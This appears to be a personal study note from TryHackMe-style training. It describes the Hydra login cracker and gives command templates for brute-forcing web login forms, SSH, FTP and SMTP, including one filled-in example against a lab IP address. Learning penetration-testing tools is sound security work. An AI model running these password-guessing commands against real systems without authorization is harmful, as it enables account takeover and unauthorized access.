 ##  What is Hydra
Hydra is a parallelized, fast and flexible login cracker. If you don't have Hydra installed or need a Linux machine to use it, you can deploy a powerful [Kali Linux machine](https://tryhackme.com/room/kali) and control it in your browser!

Brute-forcing can be trying every combination of a password. Dictionary-attack's are also a type of brute-forcing, where we iterating through a wordlist to obtain the password.

##  Common uses and commands
Hydra can be used for various purposes such as password brute-forcing, account takeover, and network authentication testing. Some of the common commands that can be used with Hydra include:

Website
```Terminal 
hydra -l USERNAME -P PASSWORD.txt IP http-POST|GET-form "/PATH-URL/something.php:username=^USER^&password=^PASS^:INVALID-STATEMENT-HTML" -VV -T X


hydra -l phillips -P /home/ubuntu/Downloads/list.txt 10.10.206.120 http-get-form "/login-get  
/index.php:username=^USER^&password=^PASS^:S=logout.php" -f
```

- http-post-form = Request                                                             --->  <font color="Red">CHANGE POST OR GET</font>
- PATH = URL Path (From Website or BurpSuite)
- ^USER^ = Keyword to define the FUZZ of username
- ^PASS^ = Keyword to define the FUZZ of password.txt
- -t = Speed
- -VV = Verbose Enable
- Login trigger
	- S=             ---> Element on the other page (After login)
	- HTML       ---> HTML login fail element
- Tips
	- If there is no ?something=  ---> Simply add : after the URL (/account-login.php:BURP-STUFF-HERE)  
- Example
	- ![[Pasted image 20221010211610.png]]
	- ![[Pasted image 20221010211700.png]]

SSH
```Terminal 
hydra -l USERNAME -P WORDLIST.txt MACHINE_IP -t X ssh
hydra -L USERNAME.txt -P PASSWORD MACHINE_IP -t X ssh
```
- ssh = Service

FTP
```Terminal 
hydra -l user -P passlist.txt ftp://MACHINE_IP
```
- ftp:// = FTP server

SMTP
```
hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v
```

##  More Information
Hydra can be downloaded from its GitHub page at [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra). The tool is compatible with Windows, Linux, and macOS. Hydra has extensive documentation available on its GitHub page, including examples, tutorials, and user guides.

<iframe src="https://www.kali.org/tools/hydra/" width="100%" height="1300"></iframe>